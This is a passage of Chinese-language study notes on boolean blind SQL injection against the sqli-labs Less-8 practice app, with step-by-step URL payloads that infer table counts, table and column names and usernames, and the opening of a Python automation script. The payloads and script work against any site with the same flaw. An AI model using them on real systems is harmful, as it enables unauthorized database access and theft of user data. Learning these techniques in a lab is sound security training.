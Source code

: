 ![image-20240805201708730](../../../../repo/assets/19.SQL注入/image-20240805201708730.png)

##### 判断有几张表

```bash
http://192.168.70.14:8088/Less-8/?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())=4 --+
```

![image-20240805200659481](../../../../repo/assets/19.SQL注入/image-20240805200659481.png)

##### 判断表名

```bash
http://192.168.70.14:8088/Less-8/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101 --+
```

![image-20240805200916500](../../../../repo/assets/19.SQL注入/image-20240805200916500.png)

##### 判断users表有几列

```bash
http://192.168.70.14:8088/Less-8/?id=1' and (select count(column_name) from information_schema.columns where table_name='users' and table_schema=database())=3--+
```

![image-20240805200950289](../../../../repo/assets/19.SQL注入/image-20240805200950289.png)

##### 判断列名

```bash
http://192.168.70.14:8088/Less-8/?id=1' and (substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 0,1),1,2))='id'--+
```

![image-20240805201038194](../../../../repo/assets/19.SQL注入/image-20240805201038194.png)

##### 获取字段值

```bash
http://192.168.70.14:8088/Less-8/?id=1' and (substr((select username from security.users limit 0,1),1,1))='D'--+
```

![image-20240805201102157](../../../../repo/assets/19.SQL注入/image-20240805201102157.png)

#### python代码：布尔盲注

```python
# -*- coding:utf-8 -*-
import requests

'''
布尔盲注脚本，如果HTTP请求结果中包含You are in，代表判断正确

'''
def ascii_str(): #生成库名表名字符所在的字符列表字典
	str_list=[]
	for i in range(33,127): #所有可显示字符的ASCII码
		str_list.append(chr(i))
	#print('可显示字符：%s'%str_list)
	return str_list #返回字符列表

def db_length(url,str):
	print("[-]开始测试数据库名长度.......")
	num=1
	while True:
```